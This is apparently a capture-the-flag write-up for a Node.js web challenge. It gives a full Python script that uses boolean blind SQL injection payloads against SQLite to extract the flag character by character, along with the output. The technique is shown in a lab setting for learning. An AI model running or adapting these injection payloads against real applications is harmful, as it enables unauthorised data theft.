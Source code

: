 <h1> walter's crystal shop </h1>


<p> This web challenge is a Nodejs web application that is vulnerable to blind SQL injection in SQLite.
 We can retrieve the flag with a boolean blind sql, and automate the process in python with the reqests library. </p>

```python
import requests


char = [chr(l) for l in range(65,91)] + [chr(l) for l in range(97,123)] + [str(l) for l in range(0,9)] + ["{", "}", "_", "@", "#", "$", "%",]

url = "https://walters-crystal-shop.chal.nbctf.com/crystals?name=Amethyst"
s = requests.Session()


def get_length(s, url) -> int:
    for n in range(100):
        payload = f"'and (SELECT length(flag) FROM flag) = {n}--"
        urlVuln = url + payload

        page = s.get(urlVuln).text

        if page.find('Amethyst') != -1:
            print('Length : ', n)
            return n

def get_flag(s, url, char, length) -> str:
    flag = ""
    for n in range(length + 1):
        for c in char:
            payload = f"'and (SELECT hex(substr(flag,{n},1)) FROM flag) = hex('{c}')--'"
            urlVuln = url + payload

            page = s.get(urlVuln).text

            if page.find('Amethyst') != -1:
                flag += c
                print(flag)
                break
    return flag


length = get_length(s, url)
flag = get_flag(s, url, char, length)
print(flag)
```

<p> And we get the flag ! </p>

```
Length : 61
nb
nbc
nbct
nbctf
nbctf{
nbctf{h
nbctf{h0
nbctf{h0p

...

nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
```
